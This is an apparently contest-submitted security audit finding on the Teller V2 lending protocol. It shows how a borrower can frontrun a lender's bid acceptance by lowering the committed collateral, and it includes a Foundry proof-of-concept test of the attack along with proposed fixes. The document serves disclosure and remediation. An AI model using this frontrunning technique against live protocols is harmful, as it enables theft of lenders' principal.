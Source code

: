 juancito

high

# Borrowers can steal lenders principal without providing collateral by frontrunning `lenderAcceptBid` and updating the bid

## Summary

A malicious borrower submits a bid. A lender decides to accept the bid after he sees that the commited collateral is high enough.

The malicious borrower can frontrun the lender transaction and update the bid with the lowest possible amount, stealing the principal while not providing the collateral he was pretending to send.

## Vulnerability Detail

The vulnerability lies on the fact that `Tellerv2::lenderAcceptBid()` does not check that the collateral values for the bid haven't changed in the meantime:

```solidity
function lenderAcceptBid(uint256 _bidId)
    external
    override
    pendingBid(_bidId, "lenderAcceptBid")
    whenNotPaused
    returns (
        uint256 amountToProtocol,
        uint256 amountToMarketplace,
        uint256 amountToBorrower
    )
{
    // ...
```

Borrowers can update their commited collateral via `CollateralManager::commitCollateral()`.

```solidity
function commitCollateral(
    uint256 _bidId,
    Collateral[] calldata _collateralInfo
) public returns (bool validation_) {
    address borrower = tellerV2.getLoanBorrower(_bidId);
    (validation_, ) = checkBalances(borrower, _collateralInfo);

    if (validation_) {
        for (uint256 i; i < _collateralInfo.length; i++) {
            Collateral memory info = _collateralInfo[i];
            _commitCollateral(_bidId, info);
        }
    }
}
```

The `commitCollateral` function allows borrowers to commit the collateral while submitting a bid, or allow them to commit it later if they didn't do it beforehand:

```solidity
    // @notice Function for a borrower to create a bid for a loan without Collateral.
    function submitBid(
        // ...
```

The `commitCollateral` function also allows borrowers to update the collateral values for their bid, as the collateral hasn't been put into escrow yet.

That can be exploited to frontrun the lender transaction and steal their principal as can be seen in the following test.

## Proof of Concept

Add this test to `packages/contracts/tests/TellerV2/TellerV2_Test.sol` and run `forge test -m "test_commit_collateral_frontrun_exploit"`:

```solidity
function test_commit_collateral_frontrun_exploit() public {
    // The original borrower balance for the DAI principal and WETH collateral
    assertEq(daiMock.balanceOf(address(borrower)), 50000);
    assertEq(wethMock.balanceOf(address(borrower)), 50000);

    // The original lender balance for the DAI principal -> This will be stolen
    assertEq(daiMock.balanceOf(address(lender)), 500000);

    // Submit bid as borrower
    uint256 bidId = submitCollateralBid();

    // The original bid is for 10 WETH
    uint256 originalCollateralAmount = collateralManager.getCollateralAmount(bidId, address(wethMock));
    assertEq(originalCollateralAmount, 10);

    // This is just to illustrate that some time passes (but it is irrelevant)
    vm.warp(100);

    // A potential lender finds the bid attractive and decides to accept the bid

    // The attack begins here
    // The malicious borrower sees the transaction in the mempool and frontruns it

    // The borrower prepares the malicious bid lowering the amount to the minimum possible
    Collateral memory info;
    info._amount = 1; // @audit minimum amount
    info._tokenId = 0;
    info._collateralAddress = address(wethMock);
    info._collateralType = CollateralType.ERC20;

    Collateral[] memory collateralInfo = new Collateral[](1);
    collateralInfo[0] = info;

    // The malicious borrower performs the attack by frontrunning the tx and updating the bid collateral amount
    vm.prank(address(borrower));
    collateralManager.commitCollateral(bidId, info);

    // The lender is now victim to the frontrunning and accepts the malicious bid
    acceptBid(bidId);

    // The borrower now has the expected 95 DAI from the loan (5 DAI are gone in fees)
    // But he only provided 1 WETH as collateral instead of the original amount of 10 WETH
    assertEq(daiMock.balanceOf(address(borrower)), 50095);
    assertEq(wethMock.balanceOf(address(borrower)), 49999); // @audit only provided 1 WETH

    // The lender lost his principal of 100 DAI, as the loan is only collateralized by 1 WETH instead of 10 WETH
    assertEq(daiMock.balanceOf(address(lender)), 499900);
}
```

## Impact

Lenders lose their principal, as they end up with an uncollateralized loan.

Borrowers can steal lenders principal without providing collateral.

## Code Snippet

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/TellerV2.sol#L470-L558

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117-L130

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/TellerV2.sol#L263-L290

## Tool used

Manual Review

## Recommendation

I suggest two possible mitigations depending on the protocol intention.

A) If the intention is to allow borrowers to update their bids with different collateral values:

Consider checking that the lender accepts the bid with the expected parameters by providing a hash of those values. This can be either stored, or calculated on-the-flight with the values stored in CollateralManager:

```diff
    function lenderAcceptBid(uint256 _bidId)
        external
        override
        pendingBid(_bidId, "lenderAcceptBid")
        whenNotPaused
        returns (
+           bytes32 collateralHash,
            uint256 amountToProtocol,
            uint256 amountToMarketplace,
            uint256 amountToBorrower
        )
    {
        // Retrieve bid
        Bid storage bid = bids[_bidId];
+       bytes32 storedCollateralHash = ... // Obtain previous collateral hash
+       require(collateralHash == storedCollateralHash, "Hashes must be the same");
```

B) If the intention is to only allow borrowers to commit their collateral once, and to cancel the bid if they made a mistake or change their minds.

Consider checking that the collateral cannot be commited again:

```diff
    function commitCollateral(
        uint256 _bidId,
        Collateral[] calldata _collateralInfo
    ) public returns (bool validation_) {
        address borrower = tellerV2.getLoanBorrower(_bidId);
+       require(isBidCollateralBacked(_bidId) == false, "bid is already backed");
```